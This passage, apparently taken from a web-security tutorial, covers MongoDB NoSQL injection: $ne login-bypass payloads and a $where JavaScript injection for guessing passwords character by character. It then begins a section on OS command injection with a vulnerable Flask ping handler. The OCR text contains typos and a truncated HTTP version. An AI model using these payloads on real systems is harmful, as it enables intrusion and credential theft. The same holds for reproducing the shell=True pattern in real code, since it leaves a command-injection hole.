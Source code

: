 ```http
GET /login.php HTTP/1.
Host: localhost
Content-Type: application/x-www-form-urlencoded

username[$ne]=xaxaxa&password[$ne]=xaxaxa
```

Using json payload (for MongoDB):

```http
GET /login.php HTTP/1.
Host: localhost
Content-Type: application/json

{
    "username":{"$ne": "xaxaxa"},
    "password":{"$ne": "xaxaxa"}
}

```

6. One of the most useful features is `$where` expression that returns data matching `js` function:

```js

db.family.find({ $where: function() { return (this.name.first == 'admin') } })

```

You can quickly see that it is useful in case some app receives some parameter and uses it as part of `js` function. Attacker can then inject complete `js` expression like it is done here:

```js
admin' && this.password[0] == 'a' || 'a'=='b
```

Therefore, simmilar to blind SQL injection attacker can iterate letter by letter through this to get the complete password.

7. So, the `$where` operator is VERY DANGEROUS. It allows executing ANY JavaScript passed to MongoDB.

So either add additional `{$where : 1}` to the POST request or inject somewhere else to check it. IF it executes it means that may be ANY JavaScript can be injected into the DB.

## OS injection

Some backends process user input as part of system commands like in this code snippet:

```python 
import flask
import subrocess 

@app.route('/what_is_my_ping')
def query_example():
# consider a case in a flask app when user enters IP address in the front end to get the ping from the server
    user_ip = request.args.get('user_ip_input')
    command = f"ping -c 1 {user_ip}"
    result = subprocess.run(command, shell=True, capture_output=True, text=True, check=True)

```
